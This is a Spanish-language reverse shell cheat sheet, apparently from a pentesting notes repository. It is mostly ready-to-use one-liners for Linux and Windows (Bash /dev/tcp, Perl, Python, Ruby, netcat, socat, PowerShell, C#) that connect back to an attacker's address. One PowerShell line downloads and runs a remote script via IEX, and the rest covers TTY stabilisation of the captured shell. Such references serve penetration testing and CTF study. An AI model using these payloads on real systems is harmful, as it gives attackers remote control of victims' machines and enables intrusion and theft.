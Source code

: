 # Reverse Shell

## Linux

| Lenguaje   | Comando                                                                                                                                                                                                                                                                  | Descripción                                                                                                                                         |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------- |
| Bash       | `bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1`                                                                                                                                                                                                                     | Inicia un shell interactiva de Bash y redirige la entrada/salida estándar a una conexión TCP inversa.                                               |
| Perl       | `perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`                                  | Inicia un shell interactiva de Bash utilizando el intérprete Perl, estableciendo una conexión TCP inversa a través del socket.                      |
| Python     | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`                           | Inicia un shell interactiva de Bash utilizando el intérprete Python, estableciendo una conexión TCP inversa a través del socket.                    |
| Ruby       | `ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",ATTACKER_PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`                                                                                                                                                  | Inicia un shell interactiva de Bash utilizando el intérprete Ruby, estableciendo una conexión TCP inversa a través del socket.                      |
| Netcat     | `nc -e /bin/sh ATTACKER_IP ATTACKER_PORT`                                                                                                                                                                                                                                | Inicia un shell interactiva de Bash utilizando la utilidad de red Netcat, estableciendo una conexión TCP inversa y ejecutando el comando `/bin/sh`. |
| Socat      | `socat tcp-connect:ATTACKER_IP:ATTACKER_PORT exec:/bin/sh,pty,stderr,setsid,sigint,sane`                                                                                                                                                                                 | Inicia un shell interactiva de Bash utilizando la utilidad de red Socat, estableciendo una conexión TCP inversa y ejecutando el comando `/bin/sh`.  |
| mkfifo     | `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f`                                                                                                                                                                                        | Inicia una shell interactiva de bash pero más segura                                                                                                |
| JavaScript | `(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4443, "ip", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();` | Reverse shell para JavaScript                                                                                                                       |

[Online - Reverse Shell Generator](https://www.revshells.com/)

## Windows

|Lenguaje|Comando|Descripción|
|---|---|---|
|Powershell|`$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" \| Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`|Inicia una shell interactiva con Powershell|
|Powershell|powershell IEX(New-Object Net.WebClient).downloadString('[http://](http://10.10.14.12:9000/Invoke-PowerShellTcp.ps1'))<IP>:PORT[/Invoke-PowerShellTcp.ps1')](http://10.10.14.12:9000/Invoke-PowerShellTcp.ps1'))|Con el script de github Invoke-Powershelltcp.ps1 [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) En el script tienes que añadirle al final el Invoke-PowerShellTcp -Reverse -IPAddress <TU IP> -Port 4444|
|C#|`using System;using System.Net.Sockets;using System.Diagnostics;using System.IO;using System.Runtime.InteropServices;namespace ReverseShell{public class Program{public static void Main(string[] args){try{TcpClient client = new TcpClient("ATTACKER_IP", ATTACKER_PORT);Stream stream = client.GetStream();StreamReader rdr = new StreamReader(stream);StreamWriter wtr = new StreamWriter(stream);Process p = new Process();p.StartInfo.FileName = "cmd.exe";p.StartInfo.CreateNoWindow = true;p.StartInfo.UseShellExecute = false;p.StartInfo.RedirectStandardOutput = true;p.StartInfo.RedirectStandardInput = true;p.StartInfo.RedirectStandardError = true;p.OutputDataReceived += new DataReceivedEventHandler((s, e) =>{if (!String.IsNullOrEmpty(e.Data)){wtr.WriteLine(e.Data);wtr.Flush();}});p.ErrorDataReceived += new DataReceivedEventHandler((s, e) =>{if (!String.IsNullOrEmpty(e.Data)){wtr.WriteLine(e.Data);wtr.Flush();}});p.Start();p.BeginOutputReadLine();p.BeginErrorReadLine();while (true){if (stream.DataAvailable){byte[] bytes = new byte[client.ReceiveBufferSize];stream.Read(bytes, 0, bytes.Length);string msg = System.Text.Encoding.ASCII.GetString(bytes);p.StandardInput.Write(msg);}}}}catch(Exception){}}}}`|Inicia un shell interactiva de CMD utilizando el lenguaje de programación C# y establece una conexión TCP inversa a través de una instancia de `System.Net.Sockets.TCPClient`.|
|Python|`python -c "import subprocess,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',ATTACKER_PORT));subprocess.Popen(['/bin/sh','-i'],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())"`|Inicia un shell interactiva de CMD utilizando el intérprete Python y establece una conexión TCP inversa a través de una instancia de `socket.socket`.|
|Netcat|`nc.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT`|Inicia un shell interactiva de CMD utilizando la utilidad de red Netcat, estableciendo una conexión TCP inversa y ejecutando el comando `cmd.exe`.|
|Metasploit|`msfvenom -p windows/shell_reverse||
|Socat Windows|`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`|Esta Reverse shell es solamente para Windows|
|Socat Linux|`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`|Establece la conexión con el listener|

## Tratamiento TTY

Una vez tengamos la reverse shell no podemos realizar los comandos como Ctrl +C , Ctrl + L así que tenemos que hacer este proceso para que si hacemos esos comandos no perder la reverse shell

### Linux

```
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
# Ver cuantas filas y columnas tenemos en nuestra shell
stty size <filas> <columnas>
stty rows <numero> columns <columnas>
Lo que haya salido lo ponemos en la reverse shell y ya estaría
```

### Windows

#### rlwrap

Con windows podemos utilizar el programa rlwrap que lo que hace es darnos acceso al autocompletado y poder utulizar las flechas del teclado, pero aun así deberíamos tratar la shell para poder hacer Control+C

```
rlwrap nc -lvnp <PORT>
Una vez tengamos la shell hacer lo siguiente
CTRL+Z
stty raw -echo; fg
```

rlwrap no viene instalado por defecto, así que habría que instalarlo `sudo apt install rlwrap`

#### Socat

```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```